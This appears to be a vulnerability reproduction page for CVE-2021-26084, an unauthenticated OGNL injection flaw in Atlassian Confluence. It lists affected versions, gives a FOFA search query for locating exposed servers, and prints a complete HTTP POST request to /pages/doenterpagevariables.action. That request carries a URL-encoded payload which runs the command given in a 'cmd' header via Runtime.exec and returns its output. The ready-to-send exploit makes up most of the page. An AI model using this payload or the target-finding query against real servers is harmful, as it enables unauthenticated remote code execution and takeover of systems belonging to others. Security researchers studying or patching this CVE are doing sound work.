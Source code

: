 # Atlassian Confluence hazarderpagevariables.action Remote command execution vulnerability CVE-2021-26084

## Vulnerability Description

Atlassian Confluence has a remote code execution vulnerability. The attacker can construct malicious requests without authentication, causing OGNL expression injection, thereby executing arbitrary code and controlling the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence < 7.4.11</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence < 7.11.6</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence < 7.13.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence < 6.13.23</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Atlassian Atlassian Confluence < 7.12.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ATLASSIAN-Confluence"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630488806824-a8205673-933b-434b-8050-abcde3ef3e97-20220313151904953.png)

Send a request packet

```python
POST /pages/doenterpagevariables.action HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 599
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=3E654B6F4ADDF325CA2203596BD0115C
cmd: id
    
queryString=%5Cu0027%2B%23%7B%5Cu0022%5Cu0022%5B%5Cu0022class%5Cu0022%5D.forName%28%5Cu0022javax.script.ScriptEngineManager%5Cu0022%29.newInstance%28%29.getEngineByName%28%5Cu0022js%5Cu0022%29.eval%28%5Cu0022var+c%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getRequest%28%29.getHeader%28%5Cu0027cmd%5Cu0027%29%3Bvar+x%3Djava.lang.Runtime.getRuntime%28%29.exec%28c%29%3Bvar+out%3Dcom.atlassian.core.filters.ServletContextThreadLocal.getResponse%28%29.getOutputStream%28%29%3Borg.apache.commons.io.IOUtils.copy%28x.getInputStream%28%29%2Cout%29%3Bout.flush%28%29%3B%5Cu0022%29%7D%2B%5Cu0027
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630489492911-21e95ad0-77c0-4cba-9bcf-ae1b660f2bb8.png)